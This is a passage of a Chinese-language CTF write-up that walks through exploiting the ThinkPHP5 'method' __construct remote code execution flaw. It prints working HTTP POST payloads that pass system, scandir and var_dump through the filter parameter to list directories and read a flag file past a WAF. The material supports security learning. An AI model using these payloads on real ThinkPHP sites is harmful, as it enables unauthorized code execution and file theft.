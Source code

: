 然后跳转到另一个页面

![img03](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img03.png)

说明想使用别的任何参数得先把这个参数给加上去才行

#### step3：

既然已经得知是tp5，那么可以尝试一下method的远程代码执行漏洞

参考：[ThinkPHP5漏洞分析之代码执行10](https://mochazz.github.io/2019/04/09/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C10/#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)

拿博客里面的payload测试一下，发现system被ban掉了，所以还是存在有waf的

```
POST /public/index.php?safe_key=easy_pentesnt_is_s0fun&s=captcha HTTP/1.1
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```

![img04](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img04.png)

于是考虑换个姿势

同时又因为这是php7.1的，所以assert没法直接用，同时eval也不再是一个函数了，所以也没法被call_user_func直接调用

如果仅仅是读文件和目录的话，可以使用这两个函数

函数名 | 作用
- | -
scandir(directory,sorting_order,context) | 列出目录中的文件和目录
show_source(filename,return) | 返回指定目录中的文件和目录的数

另外这个题里面highlight_file()也可以代替show_source()

于是乎修改姿势如下：
参考：[https://xz.aliyun.com/t/6661#toc-10](https://xz.aliyun.com/t/6661#toc-10)
```
POST /public/index.php?safe_key=easy_pentesnt_is_s0fun&s=captcha HTTP/1.1
_method=__construct&method=get&server[]=1&filter[]=scandir&get[]=./&filter[]=var_dump
```
可以看到当前目录的所有文件都读到了

![img05](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img05.png)

最终确认flag在 **/home** 路径下以后
更换姿势为 **show_source** 即可读到flag

![img06](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img06.png)


#### step4：

以防万一先读一下index.php，还有别的文件

![img07]()

读出来以后拿去html转义一下

